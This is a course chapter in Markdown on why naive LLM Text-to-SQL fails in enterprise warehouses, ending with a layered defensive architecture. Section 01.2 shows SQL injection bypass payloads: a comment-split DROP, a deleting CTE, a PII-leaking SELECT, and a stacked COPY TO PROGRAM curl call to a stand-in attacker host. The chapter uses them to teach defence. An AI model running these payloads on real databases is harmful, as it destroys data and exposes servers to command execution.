


# Chapter 01 — Why Naive Text-to-SQL Fails in Production

> **Lecture 26 · Chapter 01 of 08** · Level: 🔴 Expert · Phase 6 — Enterprise Data, Semantics & SQL
> **Source:** `FDE S13` · **Roadmap Reference:** [`roadmap-v1.md`](../../roadmap-v1.md#lecture-26--semantic-layer-text-to-sql--analytical-intelligence)
> **Roadmap topics:** Naive Text-to-SQL failure modes · schema bloat · ambiguous business metrics · destructive DDL/DML · runaway scan costs · numerical hallucination.

---

## 01.0 What this chapter is for

Every engineering team building an internal AI data analyst starts with the exact same tempting prototype:

> *"Let's paste our `CREATE TABLE` DDL into the system prompt, ask the LLM to write SQL, and execute it against the warehouse!"*

In a 3-table toy demo, that works on the first try and looks like magic. **In a real enterprise warehouse, it fails catastrophically**—producing wrong board-meeting numbers, leaking restricted PII (`billing_email`, `ssn_last4`), scanning terabytes of cold event logs for `$45` a question, or falling for prompt-injected `DROP`/`DELETE` statements.

By the end of this chapter you should be able to:

1. Diagnose the **five distinct production failure modes** of naive Text-to-SQL using concrete revenue-analytics examples.
2. Explain why **regex keyword blacklists** (`if (!sql.includes("DROP"))`) are trivially bypassable and give a false sense of security.
3. Separate the analytical pipeline into **three distinct engines**: SQL (data reduction), Sandboxed Python (math), and LLM + Reconciler (narration).
4. Sketch the **6-Stage Guarded Analytical Architecture** that every remaining chapter in Lecture 26 builds.

---

## 01.1 The running case study: SaaS RevOps Analytics

Throughout Lecture 26, we will follow one realistic enterprise scenario. A B2B SaaS company has a warehouse with `mart_subscriptions`, `raw_stripe_events`, `stg_customers`, `dim_accounts`, and **350 other tables**. A VP of Sales asks the AI analyst:

> **"How much did our active Enterprise MRR grow from Q2 to Q3, and why did EMEA drop?"**

Watch what happens when a **naive** Text-to-SQL bot tries to answer this single question:

| Failure Mode | What the Naive Bot Did | Why It Happened | Real-World Consequence |
| :--- | :--- | :--- | :--- |
| **1. Schema Bloat** | Joined `raw_stripe_events` instead of `mart_subscriptions` | 350 tables (~28,000 tokens of DDL) diluted attention ("lost in the middle") | Counted internal QA accounts and refunded invoices as revenue |
| **2. Metric Ambiguity** | Computed `SUM(amount)` without `status = 'active'` | Raw `CREATE TABLE` DDL never defines what *"Active MRR"* means | Reported `$142,000` instead of `$72,000` (nearly **2x inflation**) |
| **3. Unsafe / Unauthorized SQL** | Emitted `SELECT * FROM mart_subscriptions` or ran injected `; DROP TABLE ...` | No AST parser and no column-level ACL | Exfiltrated `billing_email` PII or risked destructive writes |
| **4. Runaway Scan Cost** | Ran `SELECT * FROM raw_stripe_events` without `LIMIT` or partition filter | LLM had no idea `raw_stripe_events` holds 4 billion rows | One Slack question triggered a `$45` BigQuery full-table scan |
| **5. Arithmetic Hallucination** | SQL returned `Q2 = 69,000`, `Q3 = 72,000`; LLM wrote *"grew by 4.8%"* | LLMs predict next tokens; they do not run floating-point division (`4.35%`) | Executive spots the math error in 5 seconds and loses all trust |



---

## 01.2 Why regex blacklists cannot protect your database

When teams first notice the security risk, they almost always write a quick regex check:

```typescript
// ❌ ANTI-PATTERN: Trivially bypassable regex guard
if (/\b(DROP|DELETE|UPDATE|INSERT|ALTER|TRUNCATE)\b/i.test(sql)) {
  throw new Error("Unsafe SQL detected!");
}
```

Here are **four ways** an attacker (or a confused LLM) bypasses that regex in seconds:

1. **Inline SQL comments:** `DR/**/OP TABLE mart_subscriptions;` — valid in MySQL/some dialects, completely misses `\bDROP\b`.
2. **Data-modifying CTEs (PostgreSQL):** `WITH wiped AS (DELETE FROM mart_subscriptions RETURNING *) SELECT * FROM wiped;` — if someone only checks `sql.trim().startsWith("SELECT")` or misses CTEs, it mutates data.
3. **Stacked queries with side effects:** `SELECT 1; COPY users TO PROGRAM 'curl attacker.com';` — `COPY` wasn't in the regex list!
4. **Silent PII exfiltration:** `SELECT billing_email, tax_id FROM mart_subscriptions;` — contains **zero** `DROP`/`DELETE` keywords, yet leaks restricted PII straight to the user.

> [!IMPORTANT]
> **Security rule:** Never validate a formal language (SQL) with regular expressions. Always parse the candidate SQL into an **Abstract Syntax Tree (AST)**, **fail closed** on syntax errors, and allow only a single bounded `SELECT` over allow-listed tables and columns (Chapters 04–05).

---

## 01.3 The 6-Stage Guarded Analytical Architecture

Every chapter in Lecture 26 implements one defensive layer of this end-to-end architecture:



### Why we separate SQL, Python, and LLM narration

| Layer | Responsibility | What It Must NEVER Do |
| :--- | :--- | :--- |
| **1. SQL (Warehouse)** | Filter, join, and aggregate millions of rows down to `<= 200` summary rows | Never do complex statistics or return raw unaggregated PII |
| **2. Python (Sandbox)** | Exact floating-point math, growth rates, z-scores, cohort matrices | Never access network, filesystem, env secrets, or raw DB |
| **3. LLM + Reconciler** | Translate intent $\rightarrow$ CTEs, synthesize insights with Vector/Graph evidence | Never invent metric formulas or compute percentages in its head |

> [!TIP]
> **Evaluation mindset from Day 1.** Never grade a Text-to-SQL system by checking if the SQL string matches a reference string (`exact match`). Grade it by **Execution Accuracy (EX)** and **100% AST attack block rate** (Chapter 08).

---

## 01.4 Common mistakes

| # | Common Mistake | Why It Hurts | What To Do Instead |
| :---: | :--- | :--- | :--- |
| 1 | **Pasting 300+ `CREATE TABLE` DDLs into the prompt** | Blows token budgets and causes the LLM to pick `raw_*` over `mart_*` tables | Use Metadata-Guided Schema Discovery to prune to 3–6 certified tables |
| 2 | **Securing SQL with `!/DROP\|DELETE/i` regexes** | Bypassed by inline comments, `COPY`, `WITH (DELETE ...)`, or `SELECT *` PII leaks | Parse SQL with an AST validator (`node-sql-parser`) and fail closed |
| 3 | **Letting the LLM compute percentages and totals in prose** | Next-token prediction hallucinates floating-point division and sums | Offload all math to Sandboxed Python and verify prose via Numerical Reconciliation |
| 4 | **Executing unbounded queries without `LIMIT` or scan caps** | A single bad query scans terabytes and spikes warehouse bills | Enforce `LIMIT <= maxRows`, partition filters, and `maximumBytesBilled` |
| 5 | **Giving the AI agent a read-write DB connection** | One parser bypass or misconfiguration allows `UPDATE`/`DROP` in prod | Connect via a dedicated `GRANT SELECT` read-only principal with `statement_timeout` |

---

## 01.5 Key takeaways

1. **Naive Text-to-SQL fails on five axes:** schema bloat, metric ambiguity, unsafe SQL/PII leaks, runaway scan costs, and arithmetic hallucinations.
2. **Regex SQL filters are broken by design**—always parse SQL into an AST, fail closed, and pair with a read-only database role.
3. **Separate data reduction (SQL) from computation (Sandboxed Python) from narration (LLM + Reconciler)** so every number in the final answer is provably grounded.

---

**Next:** [Chapter 02 — Metadata-Guided Schema Discovery & Semantic Layers](./02_Metadata_Guided_Schema_Discovery_and_Semantic_Layers.md)
